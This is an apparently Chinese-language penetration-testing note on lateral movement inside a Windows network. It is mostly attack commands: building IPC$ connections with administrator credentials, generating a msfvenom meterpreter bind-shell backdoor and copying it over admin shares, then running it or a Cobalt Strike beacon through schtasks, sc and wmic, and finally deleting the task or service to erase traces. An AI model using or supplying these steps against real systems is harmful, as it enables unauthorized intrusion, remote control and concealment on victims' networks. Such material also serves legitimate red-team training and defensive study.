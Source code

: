 # 内网渗透-横向移动

横向移动：对同网段的内网机器进行攻击



## 构建代理横向渗透

- 构建代理参考[内网多级代理](./内网多级代理.md)



## IPC连接(445端口共享连接)

IPC共享命名管道，连接445端口，提供账户密码后，可以进行默认文件共享及资源管理



**先决条件**

1. 开放139、445端口(默认开启)
2. 目标开启ICP共享服务(默认开启)
3. 管理员账号密码



**IPC默认共享**

查看共享文件：net share

1. 共享所有磁盘：C:\\ -> c$
2. Admin共享 C:\windows\ ->ADMIN$
3. IPC远程 IPC$

```tex
!!! 注意： SYSTEM 用户是无法建立IPC连接的
msf降权：
load incognito
list_token -u 
impersonate_token WIN-POVQ8FCTTO4\\Administrator

不用msf怎么降权？
把当前进程迁移到低权限进程中即可

```

建立IPC连接

​	net use \\\ip\ipc$ /user:administrator "[密码]"

查看已建立的连接 

​	net use

删除已建立的连接

​	net use \\192.168.1.101\c$ /delete 

IPC常见用法

​	dir \\192.168.1.101\c$

​	dir \\192.168.1.101\c$\windows

​	copy 1.txt \\192.168.1.101\c$

​	copy \\192.168.1.101\c$\2.txt  2.txt

​	windows常见的文件管理命令都能执行



## IPC + schtask(计划任务)

schtasks /create /s [目标ip] /u administrator /p "[密码]" /sc /MINUTE /mo 1 /tn [任务名] /tr "[绝对路径目标程序]"

创建一个每分钟执行一次指定程序的计划任务

如果已经建立IPC连接，可以略去凭据

schtasks /create /s [目标ip] /sc MINUTE /mo 1 /tn [任务名] /tr "[绝对路径目标程序]"

```tex
# schtask横向移动流程

1. 建立IPC连接 
cmd> net use \\192.168.1.101\ipc$  /user:administrator "teamssix.com"
cmd> net use  

2. 上传msfvenom正向后门
VPS_shell> msfvenom -p windows/x64/meterpreter/bind_tcp lport=10001 -f exe -o bind10001.exe 
上传后门到第一台机器，再通过第一台机器的IPC上传到第二台机器
meterpreter> upload bind10001.exe ./
cmd> copy bind10001.exe \\192.168.1.101\c$
cmd> dir \\192.168.1.101\c$

3. 创建计划任务，运行后门
cmd> schtasks /create /s 192.168.1.101 /sc MINUTE /mo 1 /tn test /tr "C:\bind10001.exe"

4. 连接后门，上线 meterpreter
meterpreter> run autoroute -s 192.168.1.0/24
msfconsole> handler -p windows/x64/meterpreter/bind_tcp -H 192.168.1.101 -P 10001

5. 删除计划任务
schtasks /delete /s 192.168.1.101 /tn test /f

```



## IPC + SC(services controller)

```tex
# cobalt strike-SC横向移动流程

1. 在192.168.1.101 机器上创建一个服务，服务的名字 testservice， 服务的启动路径是C:\beacon.exe
sc \\192.168.1.101 create testservice binpath= 'C:\beacon.exe'

2. 查看192.168.1.101机器 testservice服务的详细信息
sc \\192.168.1.101 qc testservice

3. 启动192.168.1.101 的 testservice 服务，其实就是启动C：\beacon.exe
sc \\192.168.1.101 testservice

4. 删除192.168.1.101的 testservice服务，清除痕迹
sc \\192.168.1.101 delete testservice

```



## IPC + WMIC

```tex
# cobalt strike-WMIC横向移动

1. 建立IPC连接

2. 查询远程机器进程信息
wmic /node:192.168.1.101 /user:administrator /password:teamssix.com process list brief

- 如果已经建立了IPC连接，凭据信息可以省略
wmic /node:192.168.1.101  process list brief

3. 在远程机器开启进程: 执行命令 -> wmic执行命令没有回显
wmic /node:192.168.1.101 process call create "cmd.exe /c ipconfig"

- 在远程机器开启进程: 执行命令 -> wmic执行命令查看回显
wmic /node:192.168.1.101 process call create "cmd.exe /c ipconfig > C:\hahaha.txt"
type \\192.168.1.101\c$\hahaha.txt

4. 在远程机器开启进程: 执行后门 
wmic /node:192.168.1.101 process call create "C:\beacon.exe"

```

